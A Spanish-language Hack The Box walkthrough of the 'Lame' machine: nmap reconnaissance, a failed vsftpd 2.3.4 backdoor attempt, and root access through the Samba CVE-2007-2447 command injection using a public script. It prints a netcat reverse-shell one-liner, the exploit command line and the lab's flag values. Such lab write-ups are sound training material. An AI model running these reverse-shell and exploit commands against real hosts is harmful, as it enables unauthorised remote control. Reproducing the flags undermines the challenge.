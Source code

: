 ```yaml
---
title: "Lame - Easy (HTB)"
date: 2025-07-19
categories: [Writeups, HackTheBox]
tags: [HTB, Samba, CVE-2007-2447, Shell, Exploit, Root]
description: "Writeup completo de la máquina Lame (Easy) de Hack The Box. Explotación de Samba con CVE-2007-2447 para obtener acceso root en una máquina Linux vulnerable."
---
```


# Lame - Easy

Fecha: 03-04-2025  
IP: 10.10.10.3  
Estado: Resuelta  

---

## Reconocimiento

Iniciamos con un escaneo agresivo y completo de puertos, versiones y detección de servicios:

```bash
nmap -sC -sV --min-rate 5000 -p- -A 10.10.10.3 -oA Escaneo_Lame
````

El parámetro `--top-ports 1000` también podría usarse para limitar a los mil puertos más comunes, pero aquí hicimos escaneo completo (`-p-`).

Resultado:

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

Ya desde el escaneo vemos algo interesante: el servicio FTP permite login anónimo, y hay dos versiones potencialmente vulnerables: `vsftpd 2.3.4` y `Samba 3.0.20`.

---

## Servicios encontrados

### vsftpd 2.3.4

Este FTP es conocido por tener una backdoor que se activa si se conecta con un nombre de usuario que incluya `:)`, pero al intentar explotarlo con Metasploit, no conseguimos acceso. El exploit requiere autenticación o conexión directa a un backdoor que, en esta máquina, parece estar desactivado o parchado.

Intentamos con:

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.3
run
```

Pero no obtuvimos shell.

![Foto1](/assets/img/Lame/Pasted%20image%2020250403213608.png)

---

### Samba 3.0.20

Samba en esta versión es vulnerable a una ejecución remota de comandos sin autenticación. La vulnerabilidad es la **CVE-2007-2447**, y ya existen múltiples exploits públicos funcionales.

Esta vulnerabilidad permite inyectar comandos mediante una configuración maliciosa del nombre de usuario (por ejemplo, un nombre con comillas o `;`).

Usamos el siguiente repositorio de GitHub:

[https://github.com/xbufu/CVE-2007-2447](https://github.com/xbufu/CVE-2007-2447)

El payload que ejecuta por defecto es una reverse shell:

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4242 >/tmp/f
```

Este comando crea un *named pipe*, ejecuta un shell interactivo y lo conecta a una dirección y puerto específicos con netcat.

![Foto2](/assets/img/Lame/Pasted%20image%2020250403223047.png)

---

## Ejecución del exploit

Para correr el script, primero configuramos un entorno virtual, ya que requería paquetes específicos de Python3:

```bash
python3 -m venv env
source env/bin/activate
pip install -r requirements.txt
```

Luego ejecutamos el exploit:

```bash
python3 script.py --rhost 10.10.10.3 --lhost 10.10.14.12 --lport 4242
```

Y en otra terminal dejamos netcat escuchando:

```bash
nc -lvnp 4242
```

Al correr el script, conseguimos una shell remota directamente como `root`, lo cual no es común en máquinas modernas pero sí en vulnerabilidades antiguas como esta.

![Foto3](/assets/img/Lame/Pasted%20image%2020250403222332.png)

---

## Escalando y buscando flags

Aunque ya éramos root, siempre es buena práctica verificar desde qué contexto entramos. Confirmamos que era una shell restringida (`sh-3.2`) pero con permisos de root.

Buscamos la flag del usuario:

```bash
find / -type f -name user.txt 2>/dev/null
```

Resultado:

```
/home/makis/user.txt
```

Leemos la flag:

```bash
cat /home/makis/user.txt
4bf6b7c786fada55a27c97f2c28f4d0c
```

Luego buscamos la de root:

```bash
find / -type f -name root.txt 2>/dev/null
```

Y:

```
/root/root.txt
```

Leída con:

```bash
cat /root/root.txt
3a96686a0c6236e0b7cab109eba1df3c
```
![Foto4](/assets/img/Lame/Pasted%20image%2020250403223306.png)

---

## Resumen

* Escaneo inicial reveló múltiples servicios vulnerables.
* El exploit para vsftpd 2.3.4 no funcionó, posiblemente parchado.
* Se identificó Samba 3.0.20 vulnerable a **CVE-2007-2447**, con exploits públicos disponibles.
* Ejecutamos el exploit y obtuvimos shell como root sin necesidad de escalar privilegios.
* Leímos ambas flags: `user.txt` y `root.txt`.

Una máquina sencilla, ideal para principiantes. Demuestra la importancia de mantener servicios actualizados, ya que este tipo de vulnerabilidades son muy conocidas y peligrosas.

---

¿Quieres más writeups así? Sígueme en [LinkedIn](https://www.linkedin.com/in/roberto-luzanilla-b02061259/) o checa mi blog para estar al día y mejorar tus skills.

```

